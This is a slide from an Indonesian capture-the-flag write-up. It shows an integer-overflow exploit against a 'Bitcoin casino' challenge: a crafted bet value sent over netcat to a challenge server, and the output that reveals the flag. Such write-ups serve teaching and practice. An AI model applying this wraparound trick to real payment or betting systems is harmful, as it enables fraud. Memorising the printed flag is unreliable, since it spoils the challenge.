

# Eksploitasi
Dengan tebakan asal dan taruhan 4294967295, uang bertambah 1
Jika ingin uang bertambah 100001, masukkan 4294967295 - 100000 = 4294867295 sebagai nilai taruhan
| $ nc 128.199.232.109 17846 |
| --- |
| ++++ BITCOIN KASINO ++++! Eddy Tongsis Masuk Dengan BTC90000... Gayus Timbunan Masuk Dengan BTC100000... Dan Kamu Dengan Saldo 100BTC. Tebak Angka Yang Akan Naik - (Diatas 13) Masukkan Angka Keberuntunganmu: 0 Nilai Taruhanmu (BTC): 4294867295 ========= Hasilnya adalah... Bukan 0. Yang Benar Adalah 1420821384614299086. ====== Anda Memenangkan 100101BTC Selain Itu Akan Kami Berikan Bonus Berupa flag{Integer\_H4ri\_Ini} |